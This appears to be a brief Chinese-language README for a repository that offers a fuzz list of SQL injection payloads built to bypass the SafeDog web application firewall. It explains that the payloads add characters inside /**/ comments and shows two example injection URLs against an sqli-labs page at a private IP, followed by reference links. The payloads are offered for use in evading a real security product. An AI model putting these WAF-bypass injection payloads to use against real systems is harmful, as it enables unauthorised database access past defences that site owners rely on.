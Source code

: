 # bypass
安全狗bypass

sqlifuzz.txt 文件内容
主要是在注释符/**/ 中添加其他字符，用来绕过安全狗waf

使用 
```
http://192.168.0.101/Less-1/?id=1' and/*/!/%%%*/1=1 -- - 
http://192.168.0.101/Less-1/?id=1' and/*/!/%%%*/1=2 -- -
```
参考文章：

```
https://johnfrod.top/%E5%AE%89%E5%85%A8/%E6%97%A0%E5%88%97%E5%90%8D%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87information_schema/
https://blog.csdn.net/qq_36618918/article/details/129265271
```
